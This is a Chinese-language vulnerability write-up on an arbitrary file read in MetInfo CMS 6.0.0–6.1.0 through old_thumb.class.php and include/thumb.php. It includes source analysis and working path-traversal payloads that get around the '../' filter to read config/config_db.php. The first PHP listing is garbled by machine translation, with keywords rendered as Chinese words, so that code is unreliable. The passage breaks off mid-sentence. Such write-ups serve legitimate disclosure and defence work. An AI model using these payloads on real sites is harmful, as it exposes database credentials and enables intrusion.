 MetInfo 任意文件读取
====================

一、漏洞简介
------------

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo
6.0.0\~6.1.0版本中的
old\_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

二、漏洞影响
------------

MetInfo 6.0.0 MetInfo 6.1.0

三、复现过程
------------

### 漏洞分析

进攻分析
看下\\MetInfo6\\app\\system\\include\\module\\old\_thumb.class.php

    <？php 
    ＃MetInfo企业内容管理系统
    ＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

    define（'IN_MET'）或 退出（'No权限'）;

    load :: sys_class（'web'）;

    class  old_thumb  扩展了 网络 {

          公共 功能 doshow （） { 全局 $ _M;


            $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;


            if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
                header（“ Content-type：image / jpeg”）; 
                ob_start（）; 
                readfile（$ dir）; 
                ob_flush（）; 
                flush（）; 死 ;         }



            if（$ _M [ 'form' ] [ 'pageset' ]）{ 
              $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

            } else { 
              $ path = $ dir; 
            } 
            $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;









                readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
                ob_flush（）; 
                flush（）; 
            }

        } 
    }

    ＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。
    ＃版权所有（C）MetInfo Co.，Ltd.（http://www.metinfo.cn）。版权所有。
    ？>

从代码中看用看到，\$dir直接由\$\_GET\[\'dir\'\]传递进来，并将../置空。目标是进入到第一个，如果里面的readfile(\$dir);，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断\$dir中http字符串的首次出现位置，实质上，要进入到这个if语句里面，\$dir中必须包含http字符串。里面的将\$dir中包含\$\_M\[\'url\'\]\[\'site\'\]的部分放置空，这里可以不用管。

![](resource/Metinfo任意文件读取/media/rId25.png)

从上面的分析可以构造出有效负载，只要\$dir里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用\..././来进行目录替换，因为../会被置空，所以最终payload如下

    ?dir=..././http/..././config/config_db.php
    ?dir=.....///http/.....///config/config_db.php
    ?dir=http/.....///.....///config/config_db.php
    ?dir=http\..\..\config\config_db.php

### 漏洞复现

要先找到调用old\_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old\_thumb.class.php

    <?php
    # MetInfo Enterprise Content Management System
    # Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
    define('M_NAME', 'include');
    define('M_MODULE', 'include');
    define('M_CLASS', 'old_thumb');
    define('M_ACTION', 'doshow');
    require_once '../app/system/entrance.php';
    # This program is an open source system, commercial use, please consciously to purchase commercial license.
    # Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
    ?>

所以我们通过thumb.php将构造好的\$dir传入即可。

![](resource/Metinfo任意文件读取/media/rId27.png)

可以看到成功的读取到了config/config\_
